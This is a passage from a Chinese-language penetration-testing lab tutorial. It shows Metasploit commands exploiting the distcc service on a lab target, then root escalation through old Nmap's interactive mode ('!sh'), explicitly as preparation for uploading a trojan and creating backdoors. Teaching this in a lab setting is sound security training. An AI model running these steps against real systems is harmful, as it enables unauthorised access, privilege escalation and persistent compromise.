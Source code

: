 ```
# 使用相应的攻击模块
# 设置攻击主机的 IP 地址
# 输入攻击命令

msf > use exploit/unix/misc/distcc_exec
msf > set RHOST 192.168.122.102
msf > exploit
```
![图片描述](../imgs/1482221281699.png-wm.png)

此时，已经完成了攻击，建立了攻击机和目标靶机两者之间的会话通道，在命令行终端中输入 `whoami` 命令，可以得到反馈显示 `daemon`这个用户名，该用户并非 root 权限。在一般的维持访问的过程中，我们需要得到计算机的 root 权限，进而能在后续创建后门过程中，上传攻击者的木马程序。关于如何利用漏洞攻击服务器在这里不过多介绍，对于更多的利用目标靶机漏洞攻击实战，同学们可以学习实验楼的另一门训练营：
> Kali 服务器攻击实战：https://www.shiyanlou.com/courses/698

## 5. 目标 Linux 系统提权

### 5.1 利用漏洞提权，为后续上传木马作准备

当渗透目标靶机获取了权限后，有时候未必是 root 权限，这个时候我们需要进行提权操作。在命令行终端中，输入 `/usr/bin/nmap --version` 可以查看 Namp 的版本信息。旧版本的 Namp 存在漏洞，可以通过漏洞对当前用户进行提权操作。在命令行终端中输入如下命令：
```
# 第一行代码为在交互模式下启动

/usr/bin/nmap --interactive
nmap > !sh
```
其中 `/usr/bin/nmap --interactive` 的意思是在交互模式中启动。旧版本的 Nmap 存在漏洞，只要输入 `!sh`，就能够提升权限，这个提权命令只存在 Nmap 旧版本中，原因是 Nmap 的代码设计不合理造成的。
